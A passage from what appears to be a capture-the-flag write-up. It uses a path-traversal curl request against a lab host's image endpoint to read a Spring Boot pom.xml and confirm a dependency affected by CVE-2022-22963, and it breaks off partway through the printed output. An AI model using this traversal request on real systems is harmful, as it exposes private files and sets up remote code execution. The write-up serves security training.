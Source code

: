 Perhaps the password for phil is correct, but ssh authentication is locked for him? Perhaps we will revisit this once we have access through a different avenue.

### Leveraging CVE 2022-22963

Exploring the source code documents with the file read exploit:
```xml
$ curl http://10.10.11.204:8080/show_image?img=../../../../../../var/www/WebApp/pom.xml 
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
        <modelVersion>4.0.0</modelVersion>
        <parent>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-parent</artifactId>
                <version>2.6.5</version>
                <relativePath/> <!-- lookup parent from repository -->
        </parent>
        <groupId>com.example</groupId>
        <artifactId>WebApp</artifactId>
        <version>0.0.1-SNAPSHOT</version>
        <name>WebApp</name>
        <description>Demo project for Spring Boot</description>
        <properties>
                <java.version>11</java.version>
        </properties>
        <dependencies>
                <dependency>
                        <groupId>com.sun.activation</groupId>
                        <artifactId>javax.activation</artifactId>
                        <version>1.2.0</version>
                </dependency>

                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-thymeleaf</artifactId>
                </dependency>
                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-web</artifactId>
                </dependency>

                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-devtools</artifactId>
                        <scope>runtime</scope>
                        <optional>true</optional>
                </dependency>

                <dependency>
                        <groupId>org.springframework.cloud</groupId>
                        <artifactId>spring-cloud-function-web</artifactId>
                        <version>3.2.2</version>
                </dependency>
                <dependency>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-test</artifactId>
                        <scope>test</scope>
                </dependency>
                <dependency>
                        <groupId>org.webjars</groupId>
                        <artifactId>bootstrap</artifactId>
```